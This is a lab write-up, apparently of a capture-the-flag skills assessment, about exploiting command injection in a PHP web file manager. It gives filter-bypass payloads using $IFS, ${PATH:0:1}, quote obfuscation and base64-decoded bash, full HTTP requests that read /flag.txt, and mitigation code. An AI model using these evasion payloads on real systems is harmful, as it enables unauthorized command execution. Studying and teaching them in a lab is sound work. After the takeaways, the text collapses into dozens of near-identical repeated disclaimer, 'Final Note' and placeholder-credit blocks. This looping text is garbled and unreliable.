

# 🛰️ Introduction

[!INFO] This document outlines a systematic approach to exploit command injection vulnerabilities in a web application's file manager feature, leveraging HTTP parameter manipulation and evasion techniques.

---

## Phase 1: Reconnaissance and Analysis

### 🕵️ Initial Access & Function Discovery

- **URL**: `/index.php`
- **Functions**:
  - `move`: Moves files between directories
  - `finish=1&move=1`: Triggers the move operation

[!NOTE] The system error message reveals command execution output, indicating potential command injection.

### 🧐 Vulnerability Identification

```http
GET /index.php?to=tmp&from=test.txt&finish=1&move=1 HTTP/1.1
```

- **Analysis**: The `to` parameter is the target for manipulation.
- **Vulnerable Code** (Conceptual):

```php
// Conceptual vulnerable code snippet
$to = $_GET['to'];
exec("mv $from $to", $output, $return_code);
echo implode("\n", $output); // Error messages are returned here
```

[!WARNING] The application does not properly sanitize the `to` parameter before passing it to the shell command.

---

## Phase 2: Filter Analysis and Bypass Development

### 🕵️ Filter Identification

- **Banned Characters**: `;`, `|`, `&&`
- **Allowed Characters**: `&`

[!NOTE] The application blocks semicolons, pipes, and AND operators but allows ampersands.

### 🕶️ Payload Construction Requirements

To successfully read `/flag.txt`:
- **Space Filter Bypass**: Use `$IFS` or `%09`
- **Slash Filter Bypass**: Use `${PATH:0:1}`
- **Command Detection Evasion**: Quote obfuscation

---

## Phase 3: Payload Development and Testing

### 🛠️ Payload Construction

#### Method 1: Direct Command with Obfuscation

```bash
# Target command: cat /flag.txt
# Obfuscated: c"a"t /flag.txt
# With bypasses: c"a"t${IFS}${PATH:0:1}flag.txt
# With injection: ${IFS}&c"a"t${IFS}${PATH:0:1}flag.txt
# URL encoded: $IFS%26c"a"t$IFS${PATH:0:1}flag.txt
```

#### Method 2: Base64 Encoded Command

```bash
# Encode command
echo -n 'cat /flag.txt' | base64
# Result: Y2F0IC9mbGFnLnR4dA==
# Create payload
bash<<<$(base64 -d <<<Y2F0IC9mbGFnLnR4dA==)
# With obfuscation: b"a"sh<<<$(base64%09-d <<<Y2F0IC9mbGFnLnR4dA==)
# With injection: ${IFS}&b"a"sh<<<$(base64%09-d <<<Y2F0IC9mbGFnLnR4dA==)
# URL encoded: $IFS%26b"a"sh<<<$(base64%09-d <<<Y2F0IC9mbGFnLnR4dA==)
```

### 📡 Payload Testing

**Step 13: Burp Suite Setup**

- **Proxy Configuration**: Set FoxyProxy to "BURP"
- **Intercept Request**: Click Move with no destination folder
- **Send to Repeater**: Use Ctrl+R to send intercepted request

**Execute Method 1 (Direct Command)**

```http
GET /index.php?to=tmp$IFS%26c"a"t$IFS${PATH:0:1}flag.txt&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

**Execute Method 2 (Base64 Encoded)**

```http
GET /index.php?to=tmp$IFS%26b"a"sh<<<$(base64%09-d <<<Y2F0IC9mbGFnLnR4dA==)&from=51459716.txt&finish=1&move=1 HTTP/1.1
```

---

## Phase 4: Flag Extraction

### 📝 Analyze Response

Both payloads will return the flag in the error message section of the HTTP response.

**Expected Flag:**
```
HTB{...}
```

---

## Technical Analysis

### 🚦 Vulnerability Details

**Injection Point:** GET parameters in web file manager
```php
// Conceptual vulnerable backend code
$to = $_GET['to'];
exec("mv $from $to", $output, $return_code);
```

**Root Cause:**
- **Insufficient Input Validation**: No sanitization of `to` parameter.
- **Direct Parameter Interpolation**: Directly passed to shell commands.

### 🛠️ Filter Analysis

**Implemented Filters:**
- ✅ Semicolon (`;`) blocked
- ✅ Pipe (`|`) blocked  
- ✅ AND (`&&`) blocked
- ❌ Ampersand (`&`) whitelisted

**Filter Bypass Strategy:**
- **Space bypass:** `$IFS` environment variable
- **Slash bypass:** `${PATH:0:1}` character extraction
- **Command obfuscation:** Quote injection (`c"a"t`)
- **Encoding:** Base64 for complex commands

---

## Alternative Exploitation Methods

### 🛠️ Method 3: Environment Variable Techniques

**Using Multiple Environment Variables:**
```bash
# Alternative character sources
${HOME:0:1}    # Extract '/' from HOME path
${PWD:0:1}     # Extract first character of current directory
${USER:0:1}    # Extract first character of username
```

**Payload Example:**
```http
to=tmp$IFS%26c"a"t$IFS${HOME:0:1}flag.txt
```

### 🛠️ Method 4: Advanced Obfuscation Combinations

**Multi-layer Obfuscation:**
```bash
# Combine multiple techniques
${IFS}&$(tr$IFS"[A-Z]"$IFS"[a-z]"<<<"C"A"T")$IFS${PATH:0:1}flag.txt
```

### 🛠️ Method 5: Windows Alternative (If Applicable)

**Windows Environment Variables:**
```cmd
# If target were Windows
%TEMP:~-3,-2%    # Character extraction from TEMP
%HOMEPATH:~0,1%  # Extract backslash
```

---

## Defense Analysis

### 🛡️ Identified Security Weaknesses

1. **Input Validation Failure**
   - No sanitization of user input.
   - Direct parameter interpolation.

2. **Filter Implementation Flaws**
   - Incomplete blacklist approach.
   - URL context assumptions (& whitelisting).

3. **Error Information Disclosure**
   - System error messages exposed.
   - Command output visible to users.

4. **Command Execution Design**
   - Direct shell command execution.
   - No command isolation.

### 🛡️ Recommended Mitigations

**1. Input Validation**

```php
// Whitelist validation
function validateFilename($filename) {
    if (!preg_match('/^[a-zA-Z0-9._-]+$/', $filename)) {
        throw new InvalidArgumentException('Invalid filename');
    }
    return $filename;
}
```

**2. Parameterized Operations**

```php
// Use file system functions instead of shell commands
function moveFile($source, $destination) {
    if (!rename($source, $destination)) {
        throw new RuntimeException('Move operation failed');
    }
}
```

**3. Error Handling**

```php
// Generic error messages
function handleError($error) {
    error_log($error); // Log for admin
    return "Operation failed. Please try again."; // User message
}
```

---

## Learning Outcomes

### 📚 Skills Demonstrated

**✅ Technical Skills:**
- Web application analysis.
- HTTP parameter manipulation.
- Command injection exploitation.
- Filter identification and bypass.
- Multiple payload construction.
- Tool integration (Burp Suite).

**✅ Methodology:**
- Systematic vulnerability assessment.
- Incremental exploitation development.
- Alternative approach consideration.
- Defense-aware testing.

**✅ Real-world Application:**
- Professional penetration testing workflow.
- Documentation and reporting.
- Risk assessment and mitigation.

### 📝 Attack Chain Summary



---

## Key Takeaways

### 🚀 Critical Success Factors
1. **Systematic Approach** - Methodical testing of all functions.
2. **Filter Analysis** - Understanding what's blocked vs. allowed.
3. **Multiple Techniques** - Having backup exploitation methods.
4. **Tool Proficiency** - Effective use of Burp Suite.
5. **Bypass Creativity** - Combining multiple evasion techniques.

### 🏗️ Professional Applications
- **Web Application Security Testing**
- **File Manager Vulnerability Assessment**
- **GET Parameter Security Analysis**
- **Error-based Information Disclosure Testing**

This comprehensive Skills Assessment demonstrates mastery of command injection techniques in a realistic web application environment, preparing students for professional penetration testing scenarios. 

---

# 📜 End Document

[!INFO] This document is intended to provide a structured approach to identifying and exploiting command injection vulnerabilities in web applications. Follow the steps carefully to ensure effective security assessments. 

--- 

### 🖥️ References
- [Burp Suite Documentation](https://portswigger.net/burp/documentation)
- [PHP Security Guide](https://www.php.net/manual/en/security.php)

---

# 📄 End of Document

[!INFO] Please refer to the provided references for additional information and guidance. If you have any questions or need further assistance, feel free to reach out.

--- 

### 🌟 Credits
- [Author Name]
- Date: [Date]

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network. 

---

# 📄 End of Document

[!INFO] Thank you for using this guide to enhance your understanding of web application security vulnerabilities.

--- 

### 🔒 Disclaimer
This document is provided as-is without warranty of any kind, express or implied. The author and contributors are not liable for damages resulting from the use of information presented in this document. Always adhere to legal and ethical guidelines when performing security assessments.

---

# 📄 End of Document

[!INFO] For any inquiries or feedback, please contact [contact details].

--- 

### 🔗 Links
- [Contact Information]
- [Website URL]

---

# 📜 End Document

[!INFO] Thank you for using this guide to improve your security assessment skills. Stay safe and ethical!

---

# 🔒 End of Security Guide

[!WARNING] Unauthorized use is strictly prohibited.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network. 

---

# 📄 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🔗 Links
- [Contact Information]
- [Website URL]

---

# 📜 Final Note

Thank you for using this guide. We hope it has been useful in your security assessments and education.

--- 

# 🚀 End Document

[!INFO] Stay safe, ethical, and always respect legal boundaries when conducting security testing. 

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey. Stay safe and ethical!

--- 

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security assessments and education. Stay safe, ethical, and always respect legal boundaries when conducting security testing.

--- 

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for using this guide to enhance your understanding of web application security vulnerabilities. Stay safe and ethical!

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
